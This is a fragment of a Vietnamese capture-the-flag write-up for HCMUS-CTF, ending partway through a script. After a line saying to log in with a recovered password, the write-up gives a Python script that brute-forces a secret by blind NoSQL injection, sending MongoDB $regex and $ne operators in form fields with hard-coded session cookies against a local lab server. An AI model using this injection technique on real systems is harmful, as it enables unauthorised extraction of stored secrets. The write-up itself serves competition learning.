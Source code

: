 Sau khi có passwd của Dat2Phit thì đăng nhập vào rồi exploit NoSQLi trong /edit và lụm flag.
>script
```python=0
import requests
import time

# === Config ===
HOST = "http://localhost:8888"
EDIT = f"{HOST}/user/admin/edit"
CHECK = f"{HOST}/users/"
MARK = "daylamatcher"

COOKIES = {
    'session': 'eyJmbGFzaCI6e30sInBhc3Nwb3J0Ijp7InVzZXIiOiJhZG1pbiJ9fQ==',
    'session.sig': 'PT8NZuTWC_4qKWLaOrXppHOybbg'
}

CHARS = r"""H!"#%&'(),-/:;<=>@[\]^_{|}~0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"""
SPECIALS = ".^$*+?{}[]\\|()"


def esc(c):
    return "\\" + c if c in SPECIALS else c


def try_char(prefix, c):
    test = prefix + esc(c)
    payload = {
        'data.about': MARK,
        'secret[$regex]': test
    }

    try:
        s = requests.Session()
        s.post(EDIT, data=payload, cookies=COOKIES, timeout=10)
    except Exception as e:
        print(f"[!] POST error: {e}")
        return False

    time.sleep(0.1)

    try:
        r = s.get(CHECK, cookies=COOKIES, timeout=10)
        return MARK in r.text
    except Exception as e:
        print(f"[!] GET error: {e}")
        return False


def reset():
    payload = {
        'data.about': 'resetting',
        'secret[$ne]': 'impossible_match'
    }
    try:
        requests.post(EDIT, data=payload, cookies=COOKIES, timeout=10)
        print("[*] Reset done.")
    except Exception as e:
        print(f"[!] Reset error: {e}")


def brute():
    flag = "^HCMUS-CTF{"
```